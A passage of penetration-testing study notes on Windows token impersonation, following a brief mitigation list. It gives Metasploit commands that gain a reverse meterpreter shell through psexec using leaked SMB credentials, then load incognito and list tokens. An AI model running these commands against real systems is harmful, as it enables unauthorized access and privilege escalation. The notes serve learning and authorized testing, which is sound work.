 

## Mitigation
The idea to mitigate this attack is:
- use strong passwords
- use least privilege (not run the service as domain admin)


# Token impersonation 
Tokens are temporary keys that allow access to system/network without providing credentials. 

There are two types of token  impersonation:
- Delegate, created for logging into a machine or using Remote Desktop
- Impersonate, "non interactive", so we create a script to attack network drive and so on




## Step 1 : use metasploit
We can use metasploit:
```bash
msfconsole

search psxexec

use 4 

set payload windows/x64/meterpreter/reverse_tcp

set rhosts VICTIM_IP

set smbuser username_leaked

set smbpass leaked_pass

set smbdomain DOMAIN

run

```

Now we have to load the Incognito mode into metasploit:
```bash
whoami (to see if it worked)

load incognito
```
- to work the user must be logged into the victim host
- `load + tab ` must show the alternatives

Now we can start to list tokens:
```bash
list_tokens -u
```
- `-g` to show groups instead users
- ![[Pasted image 20241220123122.png]]
